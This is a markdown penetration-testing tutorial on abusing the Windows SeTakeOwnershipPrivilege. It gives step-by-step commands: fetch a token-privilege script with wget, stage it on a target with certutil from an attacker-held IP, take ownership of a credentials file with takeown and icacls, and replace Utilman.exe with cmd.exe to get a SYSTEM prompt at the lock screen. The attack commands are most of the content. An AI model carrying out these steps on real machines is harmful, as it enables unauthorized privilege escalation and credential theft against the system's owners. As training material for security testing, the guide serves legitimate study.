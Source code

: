 ### **INTRODUCTION**

SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns WRITE_OWNER rights over an object, allowing the user to change the owner within the object's security descriptor. While administrators have this privilege by default, it can also be assigned to service accounts for specific tasks.

### **STEP 1. ENABLING SETAKEOWNERSHIPPRIVILEGE**

1.  Verify if current user has SeTakeOwnershipPrivilege privileges by running:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/169.png)
    
2.  Download the EnableAllTokenPrivs.ps1 script to enable SeBackupPrivilege.  
    `wget https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/170.png)
    
3.  Transfer the binary to the target machine using certutil  
    `certutil -urlcache -f http://[IP-ADRESS]:80/EnableAllTokenPrivs.ps1 EnableAllTokenPrivs.ps1`  
    
    ![](../../../img/Windows-Environment/171.png)

    **NOTE:** To Enable the SeTakeOwnershipPrivilege privilege, import the script using:  
    `Import-Module .\EnableAllTokenPrivs.ps1`
    
4.  Verify privileges,Ensure that SeTakeOwnershipPrivilege is now enabled  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/172.png)
    

### **STEP 2. CHOOSING A TARGET FILE**

1.  Identify a target file that you want to take ownership of. In this example, we will use cred.txt located in a file share.  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}`  
    
    ![](../../../img/Windows-Environment/173.png)
    
2.  Check the ownership of the directory to ensure it is not owned by your current user account:  
    `cmd /c dir /q 'C:\Secrets'`  
    
    ![](../../../img/Windows-Environment/174.png)
    

### **STEP 3. TAKING OWNERSHIP OF THE FILE**

1.  Use the takeown command to change the ownership of the file:  
    `takeown /f 'C:\Secrets\cred.txt'`  
    
    ![](../../../img/Windows-Environment/175.png)
    
2.  Confirm the ownership change by checking the owner of the file again.  
    `Get-ChildItem -Path 'C:\Secrets\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}`  
    
    ![](../../../img/Windows-Environment/176.png)
    
3.  Grant your user account full control over the file using the `icacls` command                         
    `icacls 'C:\Secrets\cred.txt' /grant hackfast:F`

    ![](../../../img/Windows-Environment/177.png)    

    **NOTE:** Verify that you can read the file: `cat 'C:\Secrets\cred.txt'`
    

### **EXPLOITING WITH UTILMAN**

1.  Since Utilman is run with SYSTEM privileges, we can gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    ![](../../../img/Windows-Environment/178.png)

2.  To replace utilman, we will start by taking ownership of it with the following command:  
    `takeown /f C:\Windows\System32\Utilman.exe`  
    
    ![](../../../img/Windows-Environment/179.png)

    **NOTE:** being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need.
3.  To give your user full permissions over utilman.exe you can use the following command:  
    `icacls C:\Windows\System32\Utilman.exe /grant hackfast:F`  
    `icacls "C:\Windows\System32\Utilman.exe"`  
    
    ![](../../../img/Windows-Environment/180.png)

4.  we need to replace utilman.exe with a copy of cmd.exe, (if you can back up utilman it could be great)  
    `copy cmd.exe utilman.exe`  
    
    ![](../../../img/Windows-Environment/181.png)

5.  To trigger utilman, we will lock our screen from the start button:  
    
    ![](../../../img/Windows-Environment/182.png)

6.  And finally, proceed to click on the "Ease of Access" button, which runs utilman.exe with SYSTEM privileges. Since we replaced it with a cmd.exe copy, we will get a command prompt with SYSTEM privileges:  
    
    ![](../../../img/Windows-Environment/183.png)